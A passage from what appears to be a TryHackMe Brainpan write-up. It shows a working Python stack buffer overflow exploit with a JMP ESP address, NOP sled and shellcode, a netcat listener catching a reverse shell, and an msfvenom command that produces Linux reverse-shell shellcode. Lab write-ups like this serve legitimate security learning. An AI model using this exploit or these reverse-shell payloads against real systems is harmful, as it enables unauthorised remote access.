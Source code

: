 "\xd2\x01\xc5\x27\x85\xdf\xb3\x81\x7f\xae\x6d\x58\xd3\x78\xf9"
"\x1d\x1f\xbb\x7f\x22\x4a\x4d\x9f\x93\x23\x08\xa0\x1c\xa4\x9c"
"\xd9\x40\x54\x62\x30\xc1\x74\x81\x90\x3c\x1d\x1c\x71\xfd\x40"
"\x9f\xac\xc2\x7c\x1c\x44\xbb\x7a\x3c\x2d\xbe\xc7\xfa\xde\xb2"
"\x58\x6f\xe0\x61\x58\xba")

filler = "A" * 524
EIP = "\xf3\x12\x17\x31" #JMP ESP - 311712f3
offset = "C" * 4
nops = "\x90" * 32
buffer = filler + EIP + offset + nops + payload

try:
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("brainpan",9999))
    s.recv(1024)
    s.send(buffer + "\r\n")
    s.close()

except:
   print("Application crashed")
   sys.exit()
{% endhighlight %}

Before I run the script I change the hosts file to point to the machine IP provided by TryHackMe and start a netcat listener.

```highlight
┌─[daz@parrot]─[~/Documents/TryHackMe/Brainpan]
└──╼ $nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.8.21.217] from (UNKNOWN) [10.10.220.224] 35409
CMD Version 1.4.1

Z:\home\puck>
```

We have a shell, the script worked! 

### Priv Esc

Although the main purpose of the machine is to help with buffer overflow we still need to get administrator on the box. Doing some basic enumeration of the box highlights its actually a linux machine and using wine to run the brainpan.exe application. So I update my exploit script with a linux msfvenom payload and get a new shell.

```highlight
┌─[daz@parrot]─[~/Documents/TryHackMe/Brainpan]
└──╼ $msfvenom -p linux/x86/shell_reverse_tcp LHOST=VPN IP LPORT=4444 EXITFUNC=thread -f c -e x86/shikata_ga_nai -a x86 -b "\x00"
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
Final size of c file: 425 bytes
unsigned char buf[] = 
"\xda\xd2\xd9\x74\x24\xf4\xbe\x14\x22\x5b\xcc\x5f\x29\xc9\xb1"
"\x12\x83\xef\xfc\x31\x77\x13\x03\x63\x31\xb9\x39\xba\xee\xca"
"\x21\xef\x53\x66\xcc\x0d\xdd\x69\xa0\x77\x10\xe9\x52\x2e\x1a"
"\xd5\x99\x50\x13\x53\xdb\x38\xae\xab\x0e\x61\xc6\xa9\x30\x80"
"\x4b\x27\xd1\x12\x15\x67\x43\x01\x69\x84\xea\x44\x40\x0b\xbe"
"\xee\x35\x23\x4c\x86\xa1\x14\x9d\x34\x5b\xe2\x02\xea\xc8\x7d"
"\x25\xba\xe4\xb0\x26";
```
